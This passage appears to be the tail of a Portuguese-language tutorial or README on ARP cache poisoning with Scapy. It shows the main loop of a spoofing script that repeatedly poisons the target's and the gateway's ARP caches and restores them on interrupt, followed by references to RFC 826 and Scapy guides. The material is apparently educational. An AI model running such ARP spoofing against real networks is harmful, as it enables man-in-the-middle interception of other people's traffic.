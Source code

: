 ```python
    try:
        print ("Sending spoofed ARP replies")
        while True:
            time.sleep(5) 
            poisonarpcache(targetip, targetmac, gatewayip)
            poisonarpcache(gatewayip, gatewaymac, targetip)

    except KeyboardInterrupt:
        print ("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
```

# Referências
1. [RFC 826](https://web.archive.org/web/20041204044506/http://www.ietf.org/rfc/rfc826.txt)
2. [ARP Cache Poisoning using Scapy](https://medium.com/datadriveninvestor/arp-cache-poisoning-using-scapy-d6711ecbe112)
3. [Scapy Documentation](https://scapy.readthedocs.io/en/latest/usage.html)
